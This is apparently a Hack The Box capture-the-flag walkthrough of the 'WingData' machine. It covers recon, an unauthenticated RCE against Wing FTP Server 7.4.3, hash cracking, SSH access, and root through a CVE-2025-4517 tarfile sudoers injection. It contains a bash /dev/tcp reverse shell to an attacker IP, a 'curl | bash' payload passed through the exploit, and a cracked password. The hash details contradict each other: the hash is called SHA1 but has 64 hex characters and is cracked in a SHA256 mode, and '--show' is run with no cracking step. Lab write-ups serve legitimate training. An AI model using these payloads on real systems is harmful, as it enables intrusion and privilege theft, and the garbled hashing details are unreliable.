








# HTB — WingData (Easy/Linux)


## Summary

WingData is an Easy Linux machine running Wing FTP Server v7.4.3
on port 80. The version is disclosed directly in the login page
footer, allowing immediate vulnerability research. A public
unauthenticated RCE exploit provides initial access as the
`wingftp` service user. Post-exploitation reveals a salted
SHA1 password hash for user `wacky` stored in an XML
configuration file. The hash is cracked using hashcat with
Wing FTP's static salt. Privilege escalation is achieved by
exploiting CVE-2025-4517, a Tarfile symlink bypass vulnerability
in a Python backup script executable via sudo.

**Attack Chain:** Nmap → Version Disclosure → Unauthenticated
RCE → XML Hash Extraction → Hashcat → SSH → CVE-2025-4517 → Root

---

## Reconnaissance

### Port Scan

```bash
nmap -sC -sV -oN nmap_wingdata 10.129.37.69
```

**Results:**

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u7
80/tcp open  http    Apache httpd 2.4.66 (Debian)
|_http-title: WingData Solutions
```bash



Two ports open: SSH on 22 and HTTP on 80. The web title
"WingData Solutions" suggests a custom application.
Port 80 is the primary attack surface.

---

## Web Enumeration

Navigating to `http://10.129.37.69` presents a Wing FTP
Web Client login portal. Before attempting any brute force,
the page footer reveals a critical piece of information:

**"FTP server software powered by Wing FTP Server v7.4.3"**



Version disclosure in UI footers is one of the most
common misconfigurations in production environments.
This single piece of information determines the entire
attack path.

---

## Exploitation — Unauthenticated RCE

### Vulnerability Research

```bash
searchsploit FTP Server 7.4.3
```



SearchSploit returns an **Unauthenticated Remote Code
Execution** exploit for Wing FTP Server 7.4.3
(`multiple/remote/52347.py`). This means arbitrary command
execution is possible without valid credentials.

```bash
searchsploit -m multiple/remote/52347.py
```

### Reverse Shell Setup

A staged reverse shell is used for reliability.
Three terminals are required simultaneously.

**Terminal 1 — Create payload and serve it:**
```bash
echo '#!/bin/bash' > rev.sh
echo 'bash -i >& /dev/tcp/10.10.15.146/443 0>&1' >> rev.sh
sudo python3 -m http.server 80
```

**Terminal 2 — Start listener:**
```bash
sudo nc -lvnp 443
```

**Terminal 3 — Trigger the exploit:**
```bash
python3 52347.py -u http://ftp.wingdata.htb \
-c "curl -s http://10.10.15.146/rev.sh | bash"
```



The exploit fetches and executes the reverse shell payload.
Terminal 2 receives the connection immediately.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
# Ctrl+Z
stty raw -echo; fg
```



Initial access obtained as user `wingftp`.

---

## Post-Exploitation — Credential Extraction

Navigating the WingFTP server data directory reveals
user configuration files in XML format:

```bash
ls /opt/wftpserver/Data/1/users/
# anonymous.xml  john.xml  maria.xml  steve.xml  wacky.xml
cat /opt/wftpserver/Data/1/users/wacky.xml
```


The `wacky.xml` file contains a SHA1 password hash.
Four additional users are present — `wacky` is the target
as it is the only non-service account likely to have
system access.

---

## Hash Cracking — Static Salt Bypass

Wing FTP Server applies a **static salt** to all passwords
before hashing: it appends `:WingFTP` to the plaintext
password before computing SHA1. This is a critical
misconfiguration — static salts provide no real protection
since the salt value is the same for every instance.

```bash
echo "32940defd3c3ef70a2dd44a5301ff984c4742f0baae76ff5b8783994f8a503ca:WingFTP" > hash.txt
hashcat -m 1410 --show hash.txt
```

**Result:** `!#7Blushing^*Bride5`



Hashcat mode `1410` handles `SHA256(pass.salt)` format.
The `:WingFTP` suffix tells hashcat the exact salt value
to append during each candidate test.

---

## Initial Access — SSH

```bash
ssh wacky@wingdata.htb
# Password: !#7Blushing^*Bride5
```

User flag retrieved from `/home/wacky/user.txt`.

---

## Privilege Escalation — CVE-2025-4517

```bash
sudo -l
# (root) NOPASSWD: /usr/local/bin/python3
#        /opt/backup_clients/restore_backup_clients.py *
```

The backup restore script runs as root without a password.
Researching the script reveals it uses Python's `tarfile`
module to extract archives — vulnerable to
**CVE-2025-4517**, a Tarfile symlink + hardlink bypass.

The exploit crafts a malicious `.tar` archive containing
a symlink chain that escapes the extraction directory and
writes a sudoers entry granting full root access.

```bash
cd /tmp
wget http://10.10.15.146:80/CVE-2025-4517-POC.py
python3 /tmp/CVE-2025-4517-POC.py
# Spawning root shell: y
sudo /bin/bash
```



**How CVE-2025-4517 works:** The exploit creates a tar
archive with a carefully crafted symlink chain
(Phase 1-4) that traverses outside the extraction
directory. A hardlink is then created pointing to
`/etc/sudoers`, and the exploit writes a full NOPASSWD
entry for `wacky`. When the vulnerable script extracts
the archive as root, the symlink chain resolves to
the real `/etc/sudoers`, injecting the privilege entry.

---

## Post-Exploitation — Flags

```bash
cat /home/wacky/user.txt
cat /root/root.txt
```



---

## Lessons Learned

### Offensive Perspective
- Always check UI footers and error pages for version
  disclosure — it is one of the fastest paths to exploitation
- Wing FTP uses a static salt (`:WingFTP`) appended to
  all passwords — knowing vendor-specific salting patterns
  is essential for credential cracking
- Python's `tarfile` module has been repeatedly vulnerable
  to path traversal — any script that extracts archives
  as a privileged user is a high-value target
- sudo permissions on backup/restore scripts are
  frequently overlooked in security audits

### Defensive Perspective
- Remove version information from all public-facing UI
  elements, headers, and error pages
- Replace static salts with per-user random salts stored
  separately from the hash
- Patch Python to a version where CVE-2025-4517 is fixed
- Never grant sudo NOPASSWD to scripts that process
  user-supplied files or archives
- Implement integrity checks on tar archives before
  extraction in privileged contexts

---

## Attack Chain Summary

NMAP — ports 22, 80
↓
Wing FTP v7.4.3 — version disclosed in footer
↓
searchsploit — Unauthenticated RCE (52347.py)
↓
rev.sh + http.server + nc listener
↓
RCE triggered → reverse shell as wingftp
↓
/Data/1/users/wacky.xml → SHA1 hash extracted
↓
hashcat -m 1410 with :WingFTP salt → !#7Blushing^*Bride5
↓
SSH as wacky → user.txt
↓
sudo -l → python3 restore_backup_clients.py (NOPASSWD)
↓
CVE-2025-4517 → symlink bypass → /etc/sudoers injection
↓
sudo /bin/bash → ROOT ✅

---

## References
- [CVE-2025-4517](https://www.cve.org/CVERecord?id=CVE-2025-4517)
- [Wing FTP Server](https://www.wftpserver.com)
- [Exploit-DB 52347](https://www.exploit-db.com/exploits/52347)
- [Python tarfile vulnerability](https://docs.python.org/3/library/tarfile.html)
- [HackTheBox — WingData](https://app.hackthebox.com/machines/WingData)
